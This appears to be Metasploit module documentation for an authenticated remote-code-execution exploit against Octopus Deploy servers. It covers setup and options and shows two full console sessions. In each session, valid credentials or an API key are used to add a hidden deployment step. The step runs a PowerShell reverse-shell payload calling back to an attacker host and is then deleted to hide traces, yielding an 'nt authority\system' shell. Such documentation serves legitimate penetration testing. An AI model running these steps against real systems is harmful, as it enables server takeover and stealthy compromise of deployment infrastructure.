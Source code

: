 ## Vulnerable Application

  [Install Octopus Deploy server](https://octopus.com/docs/getting-started#Gettingstarted-InstalltheOctopusserver)
  
  [Create a test user/team](https://octopus.com/docs/administration/managing-users-and-teams) - Team should have "Project contributor" and "Project deployer", or just "System administrator" and add your test user.
  
  [Create an API key](https://octopus.com/docs/how-to/how-to-create-an-api-key)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/octopusdeploy_deploy```
  4. Do: set ```PATH```, ```RHOST```, ```RPORT```, and ```SSL``` if needed
  5. Do: set ```STEPNAME``` if desired
  6. Do: set ```USERNAME``` and ```PASSWORD``` or just ```APIKEY```
  7. Do: ```run```
  8. You should get a shell.

## Options

  **APIKEY**

  API key, which can be generated within the Octopus Deploy application. Can be used instead of a username/password combination.

  **USERNAME**

  Username of the Octopus Deploy user.

  **PASSWORD**

  Password of the Octopus Deploy user.

  **PATH**

  Path to the Octopus Deploy instance. For example, if you sign in to "https://example.com/octopus/app", the value should be "/octopus".

  **STEPNAME**

  Name of the step to be added to a deployment. This may be visible in the application for a short period of time. A random value will be generated if no value is provided.

  **SSL**

  Enables or disables SSL. Octopus Deploy server can be configured to listen for HTTP or HTTPS traffic.
## Scenarios

### Octopus Deploy Server 3.16.0

  Getting a privileged shell on Octopus Deploy server using administrative credentials.

  ```
  msf > use exploit/windows/http/octopusdeploy_deploy
msf exploit(octopusdeploy_deploy) > set PATH /octoADTest
PATH => /octoADTest
msf exploit(octopusdeploy_deploy) > set USERNAME ODUser
USERNAME => ODUser
msf exploit(octopusdeploy_deploy) > set PASSWORD Password1
PASSWORD => Password1
msf exploit(octopusdeploy_deploy) > set RHOST 10.0.0.12
RHOST => 10.0.0.12
msf exploit(octopusdeploy_deploy) > set RPORT 80
RPORT => 80
msf exploit(octopusdeploy_deploy) > set payload windows/powershell_reverse_tcp
payload => windows/powershell_reverse_tcp
msf exploit(octopusdeploy_deploy) > set LHOST 10.0.0.7
LHOST => 10.0.0.7
msf exploit(octopusdeploy_deploy) > run

[*] Started reverse SSL handler on 10.0.0.7:4444 
[*] Getting available projects
[*] Using project TestProject2
[*] Getting steps to TestProject2
[*] Adding step r4XAJc to TestProject2
[*] Getting available channels
[*] Using channel Default
[*] Getting next version
[*] Using version 0.0.2
[*] Creating release
[*] Release Releases-79 created
[*] Deploying TestProject2 version 0.0.2 to TestEnv
[*] Getting updated steps to TestProject2
[*] Deleting step r4XAJc from TestProject2
[*] Step r4XAJc deleted
[*] Powershell session session 1 opened (10.0.0.7:4444 -> 10.0.0.12:59346) at 2017-05-15 19:54:01 -0500

Windows PowerShell running as user WIN-OL1HR5KBTPD$ on WIN-OL1HR5KBTPD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Octopus\ADTest\Work\20170516025358-22>whoami
nt authority\system
PS C:\Octopus\ADTest\Work\20170516025358-22> exit

[*] 10.0.0.12 - Powershell session session 1 closed.  Reason: Died from Errno::ECONNRESET

msf exploit(octopusdeploy_deploy) >
  ```

  Getting a privileged shell on Octopus Deploy server using a sufficiently privileged API key.

  ```
  msf > use exploit/windows/http/octopusdeploy_deploy
msf exploit(octopusdeploy_deploy) > set PATH /octoADTest
PATH => /octoADTest
msf exploit(octopusdeploy_deploy) > set RHOST 10.0.0.12
RHOST => 10.0.0.12
msf exploit(octopusdeploy_deploy) > set RPORT 80
RPORT => 80
msf exploit(octopusdeploy_deploy) > set payload windows/powershell_reverse_tcp
payload => windows/powershell_reverse_tcp
msf exploit(octopusdeploy_deploy) > set LHOST 10.0.0.7
LHOST => 10.0.0.7
msf exploit(octopusdeploy_deploy) > set APIKEY API-FCIQ773M43RKNC4I9KZHQTABC
APIKEY => API-FCIQ773M43RKNC4I9KZHQTABC
msf exploit(octopusdeploy_deploy) > set STEPNAME shell
STEPNAME => shell
msf exploit(octopusdeploy_deploy) > run

[*] Started reverse SSL handler on 10.0.0.7:4444 
[*] Getting available projects
[*] Using project TestProject2
[*] Getting steps to TestProject2
[*] Adding step shell to TestProject2
[*] Getting available channels
[*] Using channel Default
[*] Getting next version
[*] Using version 0.0.3
[*] Creating release
[*] Release Releases-80 created
[*] Deploying TestProject2 version 0.0.3 to TestEnv
[*] Getting updated steps to TestProject2
[*] Deleting step shell from TestProject2
[*] Step shell deleted
[*] Powershell session session 1 opened (10.0.0.7:4444 -> 10.0.0.12:59373) at 2017-05-15 19:59:55 -0500

Windows PowerShell running as user WIN-OL1HR5KBTPD$ on WIN-OL1HR5KBTPD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Octopus\ADTest\Work\20170516025952-24>whoami
nt authority\system
PS C:\Octopus\ADTest\Work\20170516025952-24> exit

[*] 10.0.0.12 - Powershell session session 1 closed.  Reason: Died from Errno::ECONNRESET

msf exploit(octopusdeploy_deploy) > 
  ```